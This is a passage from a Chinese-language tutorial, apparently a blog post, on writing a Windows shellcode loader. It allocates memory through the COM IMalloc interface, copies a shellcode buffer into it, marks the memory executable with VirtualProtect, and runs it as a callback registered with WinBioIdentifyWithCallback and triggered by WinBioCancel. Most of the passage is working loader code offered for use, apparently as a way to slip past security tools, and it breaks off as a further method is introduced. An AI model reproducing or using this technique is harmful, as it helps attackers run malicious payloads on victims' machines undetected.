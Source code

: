 
# 3.申请内存和加载shellcode

这里我们用IMalloc接口来申请，使用如下

    
    
    DWORD old;  
    IMalloc* PIMalloc = NULL;  
      
    CoGetMalloc(MEMCTX_TASK, &PIMalloc);  
    void* buu = PIMalloc->Alloc(sizeof(buuf));//分配内存  
      
    RtlCopyMemory(buu, buuf, sizeof(buuf));  
    ZeroMemory(buuf, sizeof(buuf));  
      
    VirtualProtect(buu, PIMalloc->GetSize(buu), PAGE_EXECUTE_READWRITE, &old);  
    

IMalloc还具有其他一些方法，如下

    
    
    IMalloc* PIMalloc = NULL;  
    CoGetMalloc(MEMCTX_TASK, &PIMalloc);  
    void* p = PIMalloc->Alloc(10);//分配内存  
    PIMalloc->Free(p);//释放内存  
    PIMalloc->Realloc(p,20);//更改以前分配的内存块的大小  
    

具体的请师傅们去这里https://learn.microsoft.com/zh-cn/windows/win32/api/objidlbase/nn-
objidlbase-imalloc

加载shellcode  
这里使用WinBioIdentifyWithCallback设置回调函数来执行我们的shellcode  
这几个api具体是干什么的其实师傅们不需要去理解（其实我也不知道是干啥的），师傅们只需要知道使用WinBioIdentifyWithCallback设置回调函数然后WinBioCancel触发回调函数执行我们的shellcode即可，至于其他的参数跟着文档填即可  
https://learn.microsoft.com/zh-cn/windows/win32/api/winbio/nf-winbio-
winbioidentifywithcallback

    
    
    WINBIO_SESSION_HANDLE session_handle;  
      
    WinBioOpenSession(WINBIO_TYPE_FINGERPRINT, WINBIO_POOL_SYSTEM, WINBIO_FLAG_DEFAULT, NULL, 0,WINBIO_DB_DEFAULT, &session_handle);  
      
    WinBioIdentifyWithCallback(session_handle, (PWINBIO_IDENTIFY_CALLBACK)buu, NULL);  
      
    WinBioCancel(session_handle);  
    WinBioWait(session_handle);   
    WinBioCloseSession(session_handle);  
    

至此代码也就写完了，效果图在最上面，感觉还是挺不错的，哈哈

# 4.结尾

这里在说个加载shellcode的方法
